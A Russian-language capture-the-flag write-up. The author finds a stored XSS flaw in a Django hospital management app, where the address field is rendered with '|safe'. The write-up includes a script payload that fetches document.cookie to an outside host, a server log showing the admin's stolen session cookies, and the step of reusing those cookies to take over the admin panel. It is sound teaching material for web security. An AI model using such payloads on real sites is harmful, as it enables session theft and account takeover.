

# Мегастог

Из условия следует, что на сайте есть клиент, подтверждающий записи к врачу (активирующий аккаунты пациентов). Возможно нам это пригодится...

Код, представленный в исходниках, хранится на [GitHub](https://github.com/sumitkumar1503/hospitalmanagement/) (о чем нам говорит README.md). Давайте настроим и запустим его:

```bash
$ python3 manage.py makemigrations
Migrations for 'hospital':
  hospital/migrations/0019_auto_20230716_1432.py
    - Alter field address on patientdischargedetails
```

Интересно, все нужные миграции были сгенерированны заранее и лежат в *hospital/migrations*. Давайте посмотрим, что является её причиной:

```python
# Generated by Django 3.0.5 on 2023-07-16 14:32

from django.db import migrations, models


class Migration(migrations.Migration):

    dependencies = [
        ('hospital', '0018_auto_20201015_2036'),
    ]

    operations = [
        migrations.AlterField(
            model_name='patientdischargedetails',
            name='address',
            field=models.CharField(max_length=200),
        ),
    ]
```

Добавлено новое поле - **address**. В последней версии проекта на GitHub этого поля нет. Найдем все строки кода, где оно используется:

```bash
$ grep -rn 'address' hospital
...

$ grep -rn 'address' hospitalmanagement
...

$ grep -rn 'address' templates
...
templates/hospital/admin_approve_patient.html:50:        <td>{{p.address |safe }}</td>
...
```

Отлично, найден потенциальный вектор XSS. <br>
Зарегистрируем пользователся со следующим адрессом:

```html
<script>fetch(`http://host:port/?x=${document.cookie}`)</script>
```

После подтверждения, получаем на сервер куки админа:

```
158.176.4.7 - - [16/Jul/2023 16:46:46] "GET /?x=csrftoken=Xg09BR5WXVpB3ms3d9o1P2NgWOBDPV8ga8IONyIktxSBJjArXgvkS6END0O0oJay;%20sessionid=kj3nt36lkfua1hm9h43v85o8lyeuwvee HTTP/1.1" 200 -
```

Меняем их у себя и переходим на главную страницу, после чего нас редиректит на админ панель с флагом:


